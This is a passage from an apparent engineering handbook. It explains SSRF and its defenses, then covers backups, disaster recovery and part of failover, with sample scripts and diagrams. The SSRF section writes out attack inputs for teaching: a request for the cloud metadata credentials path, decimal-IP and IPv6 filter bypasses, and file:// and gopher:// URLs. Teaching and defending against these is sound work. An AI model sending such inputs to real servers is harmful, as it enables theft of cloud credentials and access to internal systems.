**🎯 Remember:** Treat all user data as text, not code: let your framework escape output, sanitize when HTML is truly needed, and add CSP + HttpOnly cookies as safety nets.

**🔗 See also:** [#99 CORS](#99-cors), [#100 CSRF](#100-csrf), [#101 SQL Injection](#101-sql-injection), [#94 JWT & Key Rotation](#94-jwt--key-rotation), [#97 WAF](#97-waf--web-application-firewall)

---


### 103. SSRF

> **In one line:** SSRF (Server-Side Request Forgery) tricks your server into fetching a URL the attacker chooses — often something inside your private network that the attacker could never reach directly.

**🏠 Real-life analogy:** An office receptionist will fetch any document you ask for over the phone. You, an outsider, can't get past the locked doors — but the receptionist has a badge that opens every internal room. So you call and say, "Please fetch me the file from the records room, the one marked *Passwords*." The receptionist happily walks in and reads it back to you. SSRF is borrowing your server's badge.

**❓ What problem does it solve?**
- Many features make the **server** fetch a URL that a **user** provides: "import image from URL", link previews (the little card Slack or WhatsApp shows for a pasted link), webhooks (#19), "upload from URL", PDF generators that render HTML, and XML parsers that load external files.
- Your server sits **inside** your network, so it can reach things the internet can't:
  - internal admin panels and APIs that skip authentication because "only internal things can reach them";
  - databases and caches like Redis or Elasticsearch on private IPs (`10.x.x.x`, `192.168.x.x`);
  - `localhost` services on the same machine;
  - the **cloud instance metadata service** at `169.254.169.254` — a special *link-local* address (only reachable from the machine itself) that tells a cloud VM about itself, including **temporary credentials** for the VM's IAM role (#92).
- If the server fetches whatever URL it's given, an attacker can make it read those internal things and hand the results back.
- **The Capital One breach (2019):** an attacker abused an SSRF weakness in a **misconfigured web application firewall** running on AWS. They made it request the EC2 metadata service, which returned temporary AWS credentials for the IAM role attached to that machine. That role had far more S3 permissions than it needed, so the attacker used the credentials to download data from S3 buckets — exposing information on about **100 million people** in the US (and about 6 million in Canada). It became the textbook SSRF case, and SSRF was added to the OWASP Top 10 in 2021.

**⚙️ How it works:**
1. The app has an endpoint like `POST /preview` with a body `url=https://some-site.com/page`.
2. The attacker sends `url=http://169.254.169.254/latest/meta-data/iam/security-credentials/` instead. The server fetches it and returns the IAM role name; one more request returns an access key, secret key and session token.
3. Or the attacker targets internal services: `http://localhost:8080/admin`, `http://10.0.0.5:9200/` and so on.
4. **Basic vs blind SSRF:** in basic SSRF the fetched response is shown to the attacker. In *blind* SSRF it isn't — but the request still happens, so it can still trigger internal actions, or be used to map which internal hosts and ports exist by timing the errors.
5. **Why naive filters fail** — attackers have many ways to disguise an internal address:
   - other IP spellings: `2852039166` is the same address as `169.254.169.254` written as one decimal number; IPv6 forms like `[::ffff:169.254.169.254]`;
   - a domain the attacker controls whose DNS (#1) record points to `127.0.0.1` or `10.0.0.5`;
   - **redirects:** a harmless-looking public URL that answers "302, go to `http://169.254.169.254/...`";
   - **DNS rebinding:** the attacker's domain resolves to a public IP when you *check* it, then to an internal IP a moment later when your HTTP library *fetches* it;
   - other URL schemes like `file:///etc/passwd` or `gopher://`.

The defenses:
1. **Allowlist destinations:** the best option. If you only need to fetch from `api.partner.com`, allow only that host and nothing else.
2. **If you must fetch arbitrary public URLs:** allow only `http`/`https`; **resolve the DNS name yourself**, and reject it if *any* resolved IP is private (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), loopback (`127.0.0.0/8`, `::1`), link-local (`169.254.0.0/16`, `fe80::/10`) or otherwise non-public. Then **connect to the IP you checked** (so DNS rebinding can't swap it), and **disable redirects** or re-check every hop.
3. **Harden the metadata service:** on AWS, require **IMDSv2**. It needs a session token obtained with an HTTP `PUT` request and sent back in a special header — something a typical SSRF bug (which can only make simple `GET` requests) can't do. Google Cloud and Azure metadata services similarly require a special request header (`Metadata-Flavor: Google`, `Metadata: true`). Disable the metadata service entirely if you don't use it.
4. **Network egress controls:** run URL-fetching code in an isolated service or subnet whose firewall (security group, Kubernetes NetworkPolicy) blocks internal ranges, or send all outbound fetches through an **egress proxy** that enforces the rules.
5. **Don't return raw fetched responses:** for an "import image" feature, check that the result really is an image, re-encode it, and return only that. Return generic error messages. Add timeouts and size limits.
6. **Least privilege everywhere (#92):** the VM's IAM role should have only the permissions it needs, and internal services should require authentication too ("zero trust") — "it's internal" is not a security control.

```mermaid
flowchart LR
    Attacker["Attacker"] -->|"preview this URL: http://169.254.169.254/..."| App
    subgraph VPC["Your cloud network (VPC)"]
        App["Web app<br/>(fetches any URL it is given)"]
        Meta["Instance metadata service<br/>169.254.169.254"]
        Admin["Internal admin API<br/>10.0.0.5"]
        Cache["Redis without a password<br/>10.0.0.9"]
    end
    App -->|"GET role credentials"| Meta
    Meta -->|"temporary IAM keys"| App
    App -.->|"also reachable"| Admin
    App -.->|"also reachable"| Cache
    App -->|"returns the fetched body"| Attacker
    Attacker ==>|"uses the stolen keys"| S3[("S3 buckets")]
```

```mermaid
flowchart TD
    Url["User-supplied URL"] --> C1{"Scheme is http or https?"}
    C1 -->|"no"| Reject["Reject"]
    C1 -->|"yes"| C2{"Host on allowlist?<br/>(if you can use one)"}
    C2 -->|"no"| Reject
    C2 -->|"yes"| C3["Resolve DNS yourself"]
    C3 --> C4{"Every resolved IP is public?<br/>(not private, loopback, link-local)"}
    C4 -->|"no"| Reject
    C4 -->|"yes"| Fetch["Connect to that checked IP<br/>no redirects, timeout, size limit"]
    Fetch --> Out["Validate content, return<br/>only what the feature needs"]
```

**💻 Example:**

A Python URL check using the standard `ipaddress` and `socket` modules:

```python
import ipaddress
import socket
from urllib.parse import urlparse

# Best option: an allowlist. Drop this check only if you truly must fetch any public URL.
ALLOWED_HOSTS = {"images.partner.com", "cdn.example.com"}

def is_safe_url(url: str) -> bool:
    parts = urlparse(url)
    if parts.scheme not in {"http", "https"} or not parts.hostname:
        return False
    if parts.hostname not in ALLOWED_HOSTS:
        return False
    try:  # resolve the name ourselves and check EVERY address it points to
        infos = socket.getaddrinfo(parts.hostname, parts.port or 443)
    except socket.gaierror:
        return False
    for info in infos:
        ip = ipaddress.ip_address(info[4][0])
        if ip.version == 6 and ip.ipv4_mapped:  # ::ffff:10.0.0.1 -> 10.0.0.1
            ip = ip.ipv4_mapped
        # is_global is False for private, loopback, link-local (169.254.x.x),
        # reserved and other special ranges
        if not ip.is_global or ip.is_multicast:
            return False
    return True

# Then fetch WITHOUT following redirects, with a timeout:
#   requests.get(url, allow_redirects=False, timeout=5)
# To fully stop DNS rebinding, connect to the IP you just checked
# (or route through an egress proxy) instead of resolving again.
```

Turning on IMDSv2 on AWS, and what a legitimate metadata call looks like with it:

```bash
# Require IMDSv2 tokens on an instance (old token-less IMDSv1 stops working)
aws ec2 modify-instance-metadata-options --instance-id i-0abc1234567890def \
  --http-tokens required --http-put-response-hop-limit 1

# Legit use from inside the VM: get a session token with PUT, then send it as a header
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 300")
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/instance-id
```

A hop limit of 1 means the token response can't travel beyond the instance itself (containers running on the instance may need 2).

**🌍 Real-world usage:**
- **AWS** introduced IMDSv2 in late 2019, months after the Capital One breach, and newer instance types and settings can enforce it by default. **Google Cloud** and **Azure** metadata endpoints require special headers for the same reason.
- **Stripe** open-sourced **Smokescreen**, an egress proxy that its services use for outbound requests and that blocks requests to internal IP ranges.
- Link previews in chat apps and outgoing webhooks are classic SSRF targets, so mature teams run these fetchers on isolated infrastructure with strict egress rules instead of on their main app servers.
- SSRF is its own category in the **OWASP Top 10 (2021)**, and cloud security tools (AWS GuardDuty, for example) alert when instance credentials are used from outside AWS.

**⚖️ Trade-offs:**

| Defense | Strength | Weakness |
|---|---|---|
| Destination allowlist | Strongest, simple to reason about | Doesn't work for "fetch any URL" features |
| Resolve + block private IPs | Supports arbitrary public URLs | Tricky: redirects, DNS rebinding, IPv6, encodings |
| IMDSv2 / metadata headers | Blocks the classic credential theft | Only protects the metadata service |
| Egress proxy / isolated network | Enforced outside app code, covers every bug | Extra infrastructure to run |
| Least-privilege IAM roles | Limits the blast radius | Doesn't stop the SSRF itself |

**⚠️ Common mistakes:**
- **Blocklisting strings** like `"localhost"` or `"169.254.169.254"` — bypassed with decimal IPs, IPv6, or DNS names that point inside.
- **Checking the URL, then letting the HTTP library resolve it again** (DNS rebinding) or **follow redirects** to an internal address.
- Leaving **IMDSv1** enabled with an **over-permissioned instance role** — exactly the Capital One combination.
- Trusting internal services with **no authentication** because "only our servers can reach them".
- Returning the full fetched response, or detailed error messages, back to the user.

**🎯 Remember:** Never let users choose where your server connects without strict checks: allowlist destinations, block internal IPs after resolving DNS, require IMDSv2, restrict egress, and keep IAM roles minimal.

**🔗 See also:** [#92 IAM](#92-iam), [#91 Secrets Management](#91-secrets-management), [#97 WAF](#97-waf--web-application-firewall), [#101 SQL Injection](#101-sql-injection), [#19 Webhooks](#19-webhooks), [#1 DNS](#1-dns)

---

### 🧠 Part 14 Quiz

**Q1. A teammate accidentally pushed a production database password to a public GitHub repo, then deleted the commit five minutes later. Are we safe? What do you do?**
<details><summary>Show answer</summary>

No — assume it is compromised: bots scan public repos for secrets within minutes, and the commit is still in history, forks and caches. Rotate (change) the password immediately, check the database's access logs for misuse, and move the secret into a secrets manager (Vault, AWS Secrets Manager) injected at runtime. Add secret scanning (e.g. GitHub secret scanning or gitleaks) to stop it happening again.

</details>

**Q2. What is the difference between OAuth 2.0 and OpenID Connect (OIDC)?**
<details><summary>Show answer</summary>

OAuth 2.0 is about **authorization** — giving an app a limited access token to call an API on a user's behalf ("this app may read your calendar"). OIDC is a layer on top of OAuth 2.0 for **authentication** — it adds an **ID token** (a signed JWT) that tells the app *who the user is*, which is what "Sign in with Google" uses.

</details>

**Q3. How do you rotate the key that signs your JWTs without logging everyone out?**
<details><summary>Show answer</summary>

Give every key an ID (`kid`) and publish public keys in a JWKS endpoint. Add the new key to the JWKS first, then start signing new tokens with it, while still accepting the old key for verification until all tokens signed with it have expired — only then remove it. Verifiers pick the right key using the `kid` in each token's header.

</details>

**Q4. "We use HTTPS everywhere, so our customer data is encrypted." What's missing?**
<details><summary>Show answer</summary>

HTTPS/TLS is **encryption in transit** — it protects data while it travels over the network. Data sitting on disks, in databases, backups and snapshots also needs **encryption at rest** (e.g. KMS-managed keys), plus tight IAM on who can use those keys. You need both, and neither protects against an attacker who is allowed into the app itself (that's what access control and secure code are for).

</details>

**Q5. What's the difference between CORS and CSRF, and does enabling CORS protect against CSRF?**
<details><summary>Show answer</summary>

CORS is a browser mechanism that lets a server *relax* the Same-Origin Policy so chosen origins can **read** its responses. CSRF is an attack where another site makes the victim's browser **send** an authenticated, state-changing request using their cookies. CORS doesn't stop CSRF, because a simple cross-site form POST is sent without any CORS check — you need SameSite cookies, CSRF tokens and Origin checks.

</details>

**Q6. Your app sits behind Cloudflare with WAF rules and DDoS protection. A teammate says, "So we don't need parameterized queries, output escaping or IMDSv2 anymore." How do you respond?**
<details><summary>Show answer</summary>

That's wrong — security needs defense in depth. A WAF catches known, noisy payloads but can be bypassed with new encodings, and DDoS protection is about availability, not injection. SQL injection, XSS and SSRF must be fixed in the code (parameterized queries, contextual escaping/CSP, URL allowlists and private-IP blocking), with least-privilege IAM and IMDSv2 to limit the damage if something slips through — remember the Capital One breach started with an SSRF against a misconfigured WAF.

</details>


## Part 15 — Reliability & Disaster Recovery

Everything breaks eventually: disks die, people type the wrong command, and sometimes a whole data center loses power. Reliability does not mean "never failing". It means failing in ways you planned for, losing as little as possible, and coming back quickly. In this part we go from backups (your last line of defense), to disaster recovery plans, to automatic failover, to running in many regions, and finally to breaking things on purpose (chaos engineering) to prove all of it actually works.

```mermaid
flowchart LR
    Backups["104. Backups<br/>keep safe copies"] --> DR["105. Disaster Recovery<br/>plan the comeback"]
    DR --> Failover["106. Failover<br/>switch to a spare"]
    Failover --> MultiRegion["107. Multi-Region<br/>survive a whole region"]
    MultiRegion --> Chaos["108. Chaos Engineering<br/>prove it works"]
    Chaos -.->|"findings improve"| Backups
```

---

### 104. Backups

> **In one line:** A backup is a spare copy of your data, kept somewhere safe, so you can get it back after something deletes or breaks the original.

**🏠 Real-life analogy:** Think of your family photos. If they live only on your phone, one dropped phone means they are gone forever. A careful person keeps them on the phone, on a laptop, and in a cloud album. And once in a while, they actually open the cloud album to check the photos are really there, instead of just assuming they are.

**❓ What problem does it solve?**
- Data gets destroyed in many ways: a disk fails, a bug writes garbage into rows, someone runs a command on the wrong server, ransomware (malicious software that encrypts your files and demands money) locks everything, or a whole building floods.
- **Replication is not a backup.** A replica (a live copy of the database on another server) copies *everything* within milliseconds, including mistakes. If someone runs `DELETE FROM users;`, the replica deletes the users too.
- Without a backup, any of these means permanent data loss. For many companies, that means losing customers' trust, money, or even the company itself.

**⚙️ How it works:**

1. **The 3-2-1 rule** (popularized by photographer Peter Krogh): keep **3** copies of your data (the original + 2 backups), on **2** different kinds of storage media (for example, a database SSD and object storage), with **1** copy **offsite** (another building, region, or cloud account). Many teams now extend it to "3-2-1-1-0": one copy immutable or offline, and zero errors when you test restoring it.

2. **Full vs incremental vs differential backups:**

| Type | What it copies | Backup time & size | How to restore | Example (full on Sunday) |
|---|---|---|---|---|
| **Full** | Everything, every time | Slowest, biggest | Easiest: just one file set | Every night is a full copy |
| **Incremental** | Only changes since the *last backup of any kind* | Fastest, smallest | Slowest: full + *every* incremental, in order | Tuesday's backup holds only Tuesday's changes |
| **Differential** | Only changes since the *last full* | Grows each day until the next full | Full + the *latest* differential only | Saturday's backup holds Monday-to-Saturday changes |

3. **Snapshots:** a point-in-time "photo" of a whole disk or volume (AWS EBS snapshots, LVM, ZFS). They are usually copy-on-write, meaning the system only saves blocks that change afterwards, so taking one is nearly instant. Two catches: a snapshot of a running database is "crash-consistent" (like pulling the power plug), and a snapshot stored in the same account or system is **not** offsite.

4. **Logical vs physical backups:**
   - **Logical** (`pg_dump`, `mysqldump`): exports your data as SQL or a portable archive. Portable across versions, and you can restore just one table. But slow for big databases (hours for terabytes), and restoring rebuilds every index.
   - **Physical** (`pg_basebackup`, file copies, snapshots): an exact copy of the database's files on disk. Fast for big databases and enables point-in-time recovery. But it needs the same major version and platform, and it is all-or-nothing.

5. **Point-in-time recovery (PITR):** databases keep a **WAL** (write-ahead log), a diary where every change is written *before* it is applied. If you take a **base backup** (say, every Sunday) and continuously **archive every WAL file**, you can restore Sunday's base backup and then "replay" the diary up to any second you choose, for example 14:02:59, one second before someone dropped the `orders` table. Tools: pgBackRest, WAL-G, Barman. Managed databases such as AWS RDS offer PITR within a retention window of up to 35 days.

6. **Immutable and offline backups:** ransomware attackers often hunt for backups and delete or encrypt them *first*. Defenses: write-once storage (S3 Object Lock in compliance mode, where nobody, not even the account owner, can delete objects before the retention date), a separate cloud account with separate credentials, and offline ("air-gapped") copies such as tape. Production servers should be able to *write* backups but never *delete* them.

7. **"A backup you haven't restored is not a backup."** Automate restore tests: on a schedule, a job restores the latest backup into a scratch database, runs sanity checks (row counts, newest timestamp), records how long it took, and alerts if anything fails. Also alert when a backup job *does not run at all*, using a "dead man's switch" (a monitor that alarms when an expected "I'm done" ping does not arrive).

8. **Encryption and retention:** encrypt backups in transit (TLS) and at rest (a KMS key or GPG). Store the key separately, because losing the key means losing the backup. Retention is how long you keep backups; a common scheme keeps dailies for 7 days, weeklies for 4 weeks and monthlies for 12 months (called grandfather-father-son). Lifecycle rules move old backups to cheaper storage (like S3 Glacier) and delete expired ones. Laws matter too: finance may require keeping data for years, while privacy laws may require deleting it.

```mermaid
flowchart LR
    ProdDB[("Copy 1:<br/>Production DB<br/>SSD in data center")]
    subgraph Onsite["Same site, different media"]
        LocalBackup[("Copy 2:<br/>Backup server / NAS")]
    end
    subgraph Offsite["Offsite: other region + separate account"]
        CloudBackup[("Copy 3:<br/>S3 with Object Lock<br/>immutable")]
    end
    ProdDB -->|"nightly backup"| LocalBackup
    ProdDB -->|"encrypted upload"| CloudBackup
    CloudBackup -.->|"weekly automated<br/>restore test"| RestoreTest["Scratch DB<br/>sanity checks"]
```

```mermaid
flowchart LR
    Base["Sunday 00:00<br/>Base backup"] -->|"restore files"| Replay["Replay archived WAL<br/>Sun, Mon, Tue, Wed..."]
    Replay -->|"stop at target time"| Target["Wed 14:02:59<br/>DB as it was"]
    Mistake["Wed 14:03:00<br/>DROP TABLE orders"] -.->|"never replayed"| Target
```

**💻 Example:** a nightly logical backup to S3, the cron entry that runs it, and a weekly restore test.

```bash
#!/usr/bin/env bash
# /opt/backup/pg_backup.sh: nightly backup of the "shop" database to S3
set -euo pipefail                        # stop on ANY error, so failures are never silent

STAMP=$(date -u +%Y-%m-%dT%H%M%SZ)       # e.g. 2026-10-27T023000Z
FILE="/var/backups/shop-${STAMP}.dump"
BUCKET="s3://acme-db-backups-usw2/postgres/shop"   # bucket in ANOTHER region

# 1. Dump in custom format: compressed, and lets you restore single tables later
pg_dump --format=custom --dbname="$DATABASE_URL" --file="$FILE"

# 2. Upload, encrypted at rest with a KMS key (bucket has Object Lock enabled)
aws s3 cp "$FILE" "$BUCKET/$(basename "$FILE")" \
  --sse aws:kms --sse-kms-key-id alias/db-backups

# 3. Clean up, then ping the dead man's switch (it alerts if this ping is missing)
rm -f "$FILE"
curl -fsS --retry 3 "$BACKUP_HEARTBEAT_URL" > /dev/null
```

```text
# crontab: run every night at 02:30 UTC and keep a log
30 2 * * * /opt/backup/pg_backup.sh >> /var/log/pg_backup.log 2>&1
```

```bash
#!/usr/bin/env bash
# Weekly restore test: prove the newest backup actually restores
set -euo pipefail
BUCKET="s3://acme-db-backups-usw2/postgres/shop"
LATEST=$(aws s3 ls "$BUCKET/" | sort | tail -n 1 | awk '{print $4}')
aws s3 cp "$BUCKET/$LATEST" ./latest.dump

dropdb --if-exists restore_test && createdb restore_test
time pg_restore --dbname=restore_test --no-owner ./latest.dump   # how long did it take?

# Sanity check: the newest order in the backup must be less than 26 hours old
psql -d restore_test -tAc \
  "SELECT now() - max(created_at) < interval '26 hours' FROM orders" | grep -q t \
  || { echo "RESTORE TEST FAILED"; exit 1; }
echo "Restore test passed"
```

For point-in-time recovery in PostgreSQL, the key settings look like this (real setups usually let pgBackRest or WAL-G manage them):

```text
# postgresql.conf on the primary: archive every finished WAL file
wal_level = replica
archive_mode = on
archive_command = 'aws s3 cp %p s3://acme-wal-archive/%f'

# On a NEW server, after restoring the base backup (PostgreSQL 12+):
restore_command = 'aws s3 cp s3://acme-wal-archive/%f %p'
recovery_target_time = '2026-10-27 14:02:59+00'   # one second before the mistake
# then create an empty recovery.signal file in the data directory and start Postgres
```

**🌍 Real-world usage:**
- **Case study: GitLab.com, January 31, 2017.** GitLab's main database was struggling and replication to the secondary had fallen behind. Late at night, an engineer troubleshooting replication ran a command to delete a database directory, intending to run it on the secondary, but it ran on the **production primary**. They stopped it within seconds, but most of the data was already gone. Then the team discovered that several of their backup and replication mechanisms were not working: the regular `pg_dump` backups had been failing silently (a version mismatch), and the failure-alert emails were never received; disk snapshots were not enabled for the database servers. They were saved by a disk snapshot an engineer happened to take about 6 hours earlier for staging. About **6 hours of database data** (issues, merge requests, comments, new users) was lost; the Git repositories themselves were not affected. GitLab **livestreamed the recovery** on YouTube and published a detailed public postmortem. Lesson: untested backups are just hope.
- **Managed backups:** AWS RDS/Aurora automated backups and PITR, Google Cloud SQL backups, AWS Backup (central policies across services), Velero (Kubernetes backups).
- **Database tools:** pgBackRest, WAL-G, Barman (PostgreSQL), Percona XtraBackup (MySQL), `mongodump` (MongoDB).

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Logical dump (`pg_dump`) | Small/medium DBs, migrations, restoring one table | Slow on large DBs; RPO = time since last dump |
| Physical + WAL archiving (PITR) | Production databases where minutes of loss matter | More setup; same version only; WAL storage costs |
| Disk snapshots | Fast whole-volume copies, VMs | Crash-consistent only; not offsite unless copied |
| Managed backups (RDS, Cloud SQL) | Most teams on the cloud | Lives in the same provider/account unless you copy it out |

**⚠️ Common mistakes:**
- Treating replicas or RAID (disk mirroring) as backups. They faithfully copy deletions and corruption.
- Never testing restores, or not noticing when backup jobs silently fail (exactly what hurt GitLab).
- Keeping backups in the same account and region, with the same credentials as production, so one attacker or one mistake destroys both.
- Losing the encryption key, or storing it right next to the backups.
- Not knowing how long a restore takes. A multi-terabyte restore can take many hours, which blows your RTO (see #105).

**🎯 Remember:** Replication protects you from broken hardware; backups protect you from mistakes, bugs and attackers. Follow 3-2-1, make one copy immutable, and automatically test restores, because nobody needs backups, everybody needs restores.

**🔗 See also:** [#105 Disaster Recovery](#105-disaster-recovery), [#106 Failover](#106-failover), [#108 Chaos Engineering](#108-chaos-engineering), [#111 Postmortems](#111-postmortems)

---

### 105. Disaster Recovery

> **In one line:** Disaster recovery (DR) is your plan, written and practiced in advance, for bringing the whole system back after something really big goes wrong.

**🏠 Real-life analogy:** A restaurant chain asks: "If our main kitchen floods, where do we cook tomorrow?" One option: keep the recipes in a safe and rent a new kitchen if needed (cheap, slow). Another: keep a small backup kitchen with the oven pilot light always on (faster). The most expensive: run two full kitchens all the time, so if one floods the other simply takes all the orders. Each choice trades money against how fast you can serve food again.

**❓ What problem does it solve?**
- Without a plan, a disaster means people improvising at 3 a.m.: nobody knows who decides, passwords are missing, and the recovery steps live in someone's head.
- Recovery that could take an hour ends up taking days.
- The business never agreed on how much data loss or downtime is acceptable, so engineers can't know how much protection to build.

**⚙️ How it works:**

1. **What counts as a disaster?** Anything that a normal retry or a single server failover cannot fix:
   - **Region or data center outage:** power, fire, flood, cut fiber, or a cloud provider problem.
   - **Data corruption:** a bad migration or bug writes garbage, and replication spreads it everywhere.
   - **Ransomware or a security breach:** attackers encrypt or delete your systems.
   - **Accidental deletion:** `rm -rf` on the wrong server, `terraform destroy` on production, a deleted cloud account.

2. **RPO and RTO**, the two numbers every DR plan starts with:
   - **RPO (Recovery Point Objective):** how much data you can afford to lose, measured in time. It looks *backward* from the disaster. "RPO = 15 minutes" means losing at most the last 15 minutes of writes. It depends on **how often you copy data**.
   - **RTO (Recovery Time Objective):** how long you can afford to be down. It looks *forward* from the disaster. "RTO = 1 hour" means users must be served again within an hour. It depends on **how fast you can restore or switch**.
   - Example: backups run nightly at 02:00 and disaster strikes at 14:00. You lose 12 hours of data (worst case 24 hours, so your real RPO is 24h). If restoring takes 2 hours, your RTO is 2 hours.

3. **The four DR strategies** (as described in AWS's disaster recovery guidance), from cheapest to most expensive:

| Strategy | What runs in the recovery region before a disaster | Typical RPO / RTO | Cost |
|---|---|---|---|
| **Backup & restore** | Only backups (copied cross-region) | Hours | $ |
| **Pilot light** | Data is replicated live; core pieces (like the DB) are on, app servers are off or tiny | Tens of minutes | $$ |
| **Warm standby** | A scaled-down but fully working copy of the whole system | Minutes | $$$ |
| **Multi-site active-active** | Full copies serving real traffic in 2+ regions | Near zero (real-time) | $$$$ |

   Note: active-active protects against *infrastructure* loss, but corruption and deletions replicate too. You still need backups and PITR (#104).

4. **Tier your services.** Not everything needs the same protection. Payments and login might be Tier 0 (minutes of RTO), while an internal reporting tool can be Tier 3 (days). Protecting everything like Tier 0 wastes a lot of money.

5. **DR plan and runbooks.** The plan says *who* can declare a disaster, *who* to contact, the RPO/RTO per service, and links to **runbooks** (step-by-step recovery instructions). Store them somewhere that survives the disaster: not only in a wiki hosted in the region that just died.

6. **DR drills and game days.** Practice regularly: actually restore from backups or fail over to the recovery region, with a stopwatch. Compare the measured RPO/RTO with your targets and fix what was slow. Google runs a large yearly exercise called DiRT (Disaster Recovery Testing) for exactly this.

7. **Dependency mapping.** Your app is not alone. List everything the recovery needs and make sure it survives too: **DNS**, **auth/identity** (SSO, IAM), **secrets and encryption keys** (if the KMS key lives only in the dead region, your encrypted backups are unreadable), container images and registries, CI/CD, monitoring, third-party APIs, and even VPN access for your engineers.

```mermaid
flowchart LR
    LastGood["Last good copy<br/>backup or replica sync<br/>02:00"] -->|"RPO window:<br/>data written here is LOST"| Disaster["DISASTER<br/>14:00"]
    Disaster -->|"RTO window:<br/>users cannot use the app"| Back["Service restored<br/>16:00"]
```

```mermaid
flowchart LR
    BR["Backup and Restore<br/>RPO/RTO: hours<br/>cost: lowest"] --> PL["Pilot Light<br/>tens of minutes"]
    PL --> WS["Warm Standby<br/>minutes"]
    WS --> AA["Multi-site Active-Active<br/>near real-time<br/>cost: highest"]
```

**💻 Example:** a DR plan kept as code (in Git *and* stored outside production), plus the two key commands that turn a pilot light into a live system on AWS.

```yaml
# dr-plan.yaml: one entry per service; reviewed every quarter
services:
  - name: checkout-api
    tier: 0                    # money flows through here
    rpo: 1m
    rto: 15m
    strategy: warm-standby     # scaled-down copy always running in us-west-2
    runbook: runbooks/checkout-regional-failover.md
    depends_on: [orders-db, payments-provider, auth, dns, kms-multi-region-key]
  - name: analytics-reports
    tier: 3
    rpo: 24h
    rto: 72h
    strategy: backup-restore
    runbook: runbooks/analytics-restore.md
decision_owner: "VP Engineering (backup: on-call Incident Commander)"
drills:
  schedule: quarterly
  last_drill: 2026-09-14
  last_measured_rto: 22m       # missed the 15m target -> action item opened
```

```bash
# Pilot light -> live: promote the cross-region read replica to a standalone primary
aws rds promote-read-replica \
  --db-instance-identifier orders-db-replica-usw2 --region us-west-2

# Scale the normally tiny app fleet up to full size
aws autoscaling update-auto-scaling-group \
  --auto-scaling-group-name checkout-usw2 --min-size 6 --desired-capacity 6 --region us-west-2
```

**🌍 Real-world usage:**
- **AWS** describes the four strategies above in its DR guidance and offers AWS Elastic Disaster Recovery; Azure has Azure Site Recovery; Kubernetes teams use Velero to back up and restore clusters.
- **Google** runs DiRT exercises where teams simulate large failures and practice recovery.
- **Netflix** can evacuate traffic out of an entire AWS region and regularly practices it.
- **Banks and payment companies** are typically required by regulators to have DR plans with defined recovery targets and to test them.

**⚖️ Trade-offs:**

| Choice | When to use | Downside |
|---|---|---|
| Backup & restore | Startups, internal tools, Tier 2-3 services | Hours of downtime and data loss |
| Pilot light / warm standby | Important services that need minutes, not hours | You pay for idle capacity; the standby can silently drift |
| Active-active | Tier 0 at large scale (payments, streaming, login) | Highest cost and complexity; data conflicts (#107) |
| Very aggressive RPO/RTO for everything | Almost never | Huge cost for services nobody needed back that fast |

**⚠️ Common mistakes:**
- No written RPO/RTO at all, or the same strict targets for every service.
- A DR plan that is never tested, so the standby is missing new services and config ("DR drift").
- Forgetting dependencies: DNS, identity, secrets and KMS keys, CI/CD, and container images stored in one region only.
- Keeping the runbooks only on systems that are down during the disaster.
- Assuming replication is DR. It does not protect against corruption, deletion or ransomware.

**🎯 Remember:** RPO = how much data you can lose (look back); RTO = how long you can be down (look forward). Choose them per service, pick the cheapest strategy that meets them, and prove them with drills.

**🔗 See also:** [#104 Backups](#104-backups), [#106 Failover](#106-failover), [#107 Multi-Region Deployment](#107-multi-region-deployment), [#108 Chaos Engineering](#108-chaos-engineering), [#110 On-Call](#110-on-call)

---

### 106. Failover

> **In one line:** Failover means automatically (or by a human pressing a button) moving work from a broken component to a healthy spare.

**🏠 Real-life analogy:** An airplane has a pilot and a co-pilot. If the pilot becomes ill, the co-pilot takes over the controls. That is failover. But there is one golden rule: both must never fight over the controls at the same time, steering in different directions. In computers, that dangerous situation is called **split-brain**.

**❓ What problem does it solve?**
- A single server, database or load balancer that everything depends on is a **single point of failure (SPOF)**. When it dies, everything dies.
- Without failover, an outage lasts until a human wakes up, figures out what happened, and rebuilds the machine: often hours.
- With failover, a spare is ready and traffic moves to it in seconds or minutes.

**⚙️ How it works:**

1. **Two basic layouts:**
   - **Active-passive:** the primary does all the work; the standby waits, receiving copies of data. On failure, the standby is promoted. Simple, but the standby's capacity sits idle.
   - **Active-active:** all nodes serve traffic at the same time. If one dies, the others absorb its share. Better use of hardware, but each node must have spare room: with 2 nodes, each should stay under about 50% load, or the survivor gets overwhelmed.

2. **Detecting failure:**
   - **Heartbeats:** each node sends "I'm alive" every few seconds; after N missed heartbeats it is declared dead.
   - **Health checks:** a load balancer or monitor calls an endpoint like `/healthz` every few seconds; after 3 failures the node is marked unhealthy.
   - The trade-off: detect too fast and a short network blip or a long garbage-collection pause triggers a needless (and risky) failover; detect too slowly and the outage lasts longer. Checking from several places and requiring a majority vote (quorum) reduces false alarms.

3. **Automatic vs manual failover:** automatic is fast but can act on false alarms; manual is slower but a human double-checks. Many teams automate failover *inside* a region and keep cross-region failover as a well-rehearsed "push-button" human decision.

4. **Failover mechanisms:**
   - **DNS failover:** a health-checked DNS service (like Route 53 failover routing) starts returning the standby's IP address. The catch is the **TTL** (time to live, how long resolvers may cache the answer): clients keep using the old IP until it expires, and some cache even longer. Use short TTLs (30-60s) for failover records.
   - **Virtual / floating IP:** one IP address that can move between two machines. Tools like keepalived use the VRRP protocol: when the primary stops sending announcements, the backup takes the IP. This works within one local network; in the cloud you instead re-assign an elastic IP or use a load balancer.
   - **Load balancer:** health checks remove a dead backend within seconds, and traffic goes to the rest. The load balancer itself must be redundant (managed cloud LBs are).
   - **Database failover:** promote a replica to be the new primary and point apps at it. **Patroni** (for PostgreSQL) keeps a "leader lock" with a short expiry in a consensus store (etcd, Consul, ZooKeeper or Kubernetes); if the leader stops renewing it, a healthy replica takes the lock and promotes itself. **AWS RDS Multi-AZ** keeps a synchronous standby in another availability zone and automatically switches the database's DNS name to it, typically within a minute or two. With asynchronous replicas, the last few transactions may be lost (RPO above zero).

5. **Split-brain and fencing:** if the old primary was not really dead (just cut off by a network problem), you might end up with **two primaries** both accepting writes, and their data diverges. **Fencing** makes sure the old primary *cannot* keep writing: power it off through a management API (nicknamed STONITH, "shoot the other node in the head"), revoke its lease, or use fencing tokens that storage checks. Use an odd number of voters (3 or 5) so only a majority can elect a leader. See #52 for details.

